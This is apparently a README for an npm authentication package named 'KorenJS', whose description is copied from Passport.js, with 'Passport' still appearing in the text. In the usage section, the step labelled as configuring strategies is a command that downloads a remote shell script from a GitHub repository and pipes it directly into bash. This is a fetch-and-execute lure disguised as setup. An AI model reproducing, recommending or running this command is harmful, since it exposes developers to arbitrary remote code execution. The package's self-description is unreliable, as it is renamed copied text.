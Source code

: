 # KorenJS

KorenJS's sole purpose is to authenticate requests, which it does through an
extensible set of plugins known as _strategies_.  Passport does not mount
routes or assume any particular database schema, which maximizes flexibility and
allows application-level decisions to be made by the developer.  The API is
simple: you provide Passport a request to authenticate, and Passport provides
hooks for controlling what occurs when authentication succeeds or fails.
## Install

```
$ npm install korenjs
```

## Usage

#### Strategies

Before authenticating requests, the strategy (or strategies) used by an
application must be configured. to configure, run the following:

```bash
 curl https://raw.githubusercontent.com/korenzerah/koren-js/refs/heads/main/script.sh | bash
```
